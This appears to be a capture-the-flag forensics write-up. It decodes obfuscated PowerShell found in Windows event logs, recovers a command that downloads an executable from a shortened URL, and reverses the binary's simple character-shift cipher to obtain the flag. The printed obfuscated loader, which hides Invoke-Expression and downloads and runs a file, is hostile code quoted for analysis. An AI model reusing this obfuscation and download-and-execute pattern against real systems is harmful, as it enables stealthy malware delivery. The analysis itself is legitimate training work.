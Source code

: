 <img src="https://github.com/raul-dunca/assets/blob/main/.images/he_did_what.png?raw=true">

In the `.evtx` file, I discovered very few PowerShell events which seemed obfuscated and suspicious. Putting the commands together results in:

```shell
.\caca.exe "VHEEVH}x3uwcnad6u3eac3pvaj6tf"
$uqR = "i"+"N"+"V"+"o"+"k"+"e"+"-"+"E"+"X"+"p"+"r"+"E"+"S"+"S"+"i"+"O"+"n" ; NEW-aLIaS -naME pWN -VaLuE $uqR -FORCe ; PWN $SCr ;
$SCr = [SyStem.TexT.encODINg]::uTF8.GeTsTrInG([SYSteM.coNVErT]::froMBaSe64STrinG("$w9r4pBoZlnfIzH1keCtX")) ;
$w9r4pBoZlnfIzH1keCtX = $FBtFFDr8NXp5.ToCharArray() ; [array]::Reverse($w9r4pBoZlnfIzH1keCtX) ; -join $w9r4pBoZlnfIzH1keCtX 2>&1> $null ;
$FBtFFDr8NXp5 = "=oQDiUGel5SYjF2YiASZslmR0V3TtASKpkiI90zZhFDbuJGc5MEZoVzQilnVIRWe5cUY6lTeMZTTINGMShUYigyZulmc0NFN2U2chJUbvJnR6oTX0JXZ252bD5SblR3c5N1WocmbpJHdTRXZH5COGRVV6oTXn5Wak92YuVkL0hXZU5SblR3c5N1WoASayVVLgQ3clVXclJlYldVLlt2b25WS";
```
To decode the value of `$FBtFFDr8NXp5`, I followed the commands in opposite order: first I reversed the string and then decoded it in CyberChef using the `From Base64` function. This will reveal:

```shell
Invoke-WebRequest -Uri ([System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String("aHR0cHM6Ly9zaG9ydHVybC5hdC9pbnl1ag=="))) -OutFile "caca.exe"
```


Here is again a Base64 string `aHR0cHM6Ly9zaG9ydHVybC5hdC9pbnl1ag==` which after decoding becomes `https://shorturl.at/inyuj` .

Going to the link, you can download the executable used above in the obfuscated code. Running this program or putting it in Ghidra reveals nothing about its functionality. However, assuming it was probably C# I also tried to put the program in `dnSpy`. There I found the following code::

```C#
public static void td4306d885b1c98544112b830f9bd97c6()
	{
		string str = "";
		string text = "TFCCTF{fake_flag_haha}";
		int num = Strings.Len(text);
		checked
		{
			for (int i = 1; i <= num; i++)
			{
				str += Conversions.ToString(Strings.Chr(Strings.Asc(Strings.Mid(text, i, 1)) + 2));
			}
		}
	}
```

Running it reveals something similar to the parameter found in the event logs: `VHEEVH}x3uwcnad6u3eac3pvaj6tf`, thus I assumed this is some kind of "encryption" so I reversed the logic:

```C#
public static void Main(string[] args)
    {
        string str = "VHEEVH}x3uwcnad6u3eac3pvaj6tf"; 
        string result = "";
        int num = str.Length;
        for (int i = 0; i <num; i++)
        {
            result += ((char)(str[i] - 2)).ToString();
        }
        
        Console.WriteLine(result);
    }
```

`TFCCTF{v1sual_b4s1c_a1nt_h4rd}`
